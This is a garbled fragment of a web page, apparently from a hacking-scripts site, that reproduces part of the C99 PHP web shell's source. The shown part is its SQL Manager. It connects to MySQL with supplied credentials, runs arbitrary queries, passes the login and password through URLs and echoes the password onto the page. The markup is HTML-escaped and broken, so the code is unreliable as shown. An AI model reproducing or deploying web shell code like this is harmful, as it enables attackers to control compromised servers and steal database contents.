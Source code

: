&lt;tbody&gt;
&lt;tr&gt;
&lt;td colspan="2" valign="top" width="100%" height="1"&gt;&lt;center&gt;&lt;!--?php &lt;br ?--&gt; if ($sql_server)
 {
 $sql_sock = mysql_connect($sql_server.":".$sql_port, $sql_login, $sql_passwd);
 $err = mysql_smarterror();
 @mysql_select_db($sql_db,$sql_sock);
 if ($sql_query and $submit) {$sql_query_result = mysql_query($sql_query,$sql_sock); $sql_query_error = mysql_smarterror();}
 }
 else {$sql_sock = FALSE;}
 echo "&lt;b&gt;SQL Manager:&lt;/b&gt;
";
 if (!$sql_sock)
 {
 if (!$sql_server) {echo "NO CONNECTION";}
 else {echo "&lt;center&gt;&lt;b&gt;Can't connect&lt;/b&gt;&lt;/center&gt;"; echo "&lt;b&gt;".$err."&lt;/b&gt;";}
 }
 else
 {
 $sqlquicklaunch = array();
 $sqlquicklaunch[] = array("Index",$surl."act=sql&sql_login=".htmlspecialchars($sql_login)."&sql_passwd=".htmlspecialchars($sql_passwd)."&sql_server=".htmlspecialchars($sql_server)."&sql_port=".htmlspecialchars($sql_port)."&");
 $sqlquicklaunch[] = array("Query",$sql_surl."sql_act=query&sql_tbl=".urlencode($sql_tbl));
 $sqlquicklaunch[] = array("Server-status",$surl."act=sql&sql_login=".htmlspecialchars($sql_login)."&sql_passwd=".htmlspecialchars($sql_passwd)."&sql_server=".htmlspecialchars($sql_server)."&sql_port=".htmlspecialchars($sql_port)."&sql_act=serverstatus");
 $sqlquicklaunch[] = array("Server variables",$surl."act=sql&sql_login=".htmlspecialchars($sql_login)."&sql_passwd=".htmlspecialchars($sql_passwd)."&sql_server=".htmlspecialchars($sql_server)."&sql_port=".htmlspecialchars($sql_port)."&sql_act=servervars");
 $sqlquicklaunch[] = array("Processes",$surl."act=sql&sql_login=".htmlspecialchars($sql_login)."&sql_passwd=".htmlspecialchars($sql_passwd)."&sql_server=".htmlspecialchars($sql_server)."&sql_port=".htmlspecialchars($sql_port)."&sql_act=processes");
 $sqlquicklaunch[] = array("Logout",$surl."act=sql");
 echo "&lt;center&gt;&lt;b&gt;MySQL ".mysql_get_server_info()." (proto v.".mysql_get_proto_info ().") running in ".htmlspecialchars($sql_server).":".htmlspecialchars($sql_port)." as ".htmlspecialchars($sql_login)."@".htmlspecialchars($sql_server)." (password - \"".htmlspecialchars($sql_passwd)."\")&lt;/b&gt;
";
 if (count($sqlquicklaunch) &gt; 0) {foreach($sqlquicklaunch as $item) {echo "[ &lt;a href="\&quot;&quot;.$item[1].&quot;\&quot;"&gt;&lt;b&gt;".$item[0]."&lt;/b&gt;&lt;/a&gt; ] ";}}
 echo "&lt;/center&gt;";
 }
 echo "&lt;/center&gt;&lt;/td&gt;
&lt;/tr&gt;
&lt;tr&gt;
&lt;td valign="top" width="28%" height="100"&gt;&lt;center&gt;&lt;span style="font-size: x-large;"&gt; i &lt;/span&gt;&lt;/center&gt;
&lt;ul&gt;
	&lt;li&gt;If login is null, login is owner of process.&lt;/li&gt;
	&lt;li&gt;If host is null, host is localhost&lt;/li&gt;
	&lt;li&gt;If port is null, port is 3306 (default)&lt;/li&gt;
&lt;/ul&gt;
&lt;/td&gt;
&lt;td valign="top" width="90%" height="1"&gt;
&lt;table width="100%" border="0" cellspacing="0" cellpadding="0"&gt;
&lt;tbody&gt;
&lt;tr&gt;
&lt;td&gt; &lt;b&gt;Please, fill the form:&lt;/b&gt;
&lt;table&gt;
&lt;tbody&gt;

 [1]: http://hackingscripts.com/c99-shell/ "C99 Shell"
 [2]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999.png